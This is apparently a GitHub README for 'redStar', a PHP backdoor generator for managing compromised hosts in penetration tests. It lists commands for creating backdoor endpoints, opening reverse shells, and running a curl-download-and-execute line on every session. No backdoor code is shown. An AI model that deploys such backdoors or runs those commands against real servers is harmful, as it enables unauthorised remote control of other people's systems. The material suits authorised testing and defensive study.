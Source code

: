 # redStar
```
		.
    ~           ,O,
     ´         ,OOO,			,
      .  'oooooOOOOOooooo'
       .   `OOOOOOOOOOO`
        '    `OOOOOOO`	`	-
 `           OOOO'OOOO
  .         OOO'   'OOO 	.	,
    `      O'         'O
```
redStar is php backdoor generator and management project. 
redStar generated for penetration tests, you can manage all pwned hosts.

redStar supports autocomplete with [TAB]

## Setup
- pip3 install -r requirements.txt

## Running
- python3 main.py

## Usage

### Create PHP Endpoint File 
createEndpoint 123456 1  => Creates php file in "endpoints" folder

createEndpoint 123456 0  => Creates php file in given path

**OR**

createEndpoint           => Create php file interactive


### Add New Endpoint to redStar
addEndpoint http://localhost/end.php 123456

### Check Avaible Endpoint
checkOnlineSessions

### Execute Commands in All sessions
multiTask "curl http://localhost/test.bin;chmod +x test.bin;./test.bin"

### Get All Sessions
sessions

### Clear Database
clearDB

### Get Fake Shell
sessions 31EAF990D1AB shell

### Get Reverse Shell
sessions 31EAF990D1AB reverseShell

### Delete Session
sessions 31EAF990D1AB delete

### Show Banner
banner


*For Educational Porpuse*
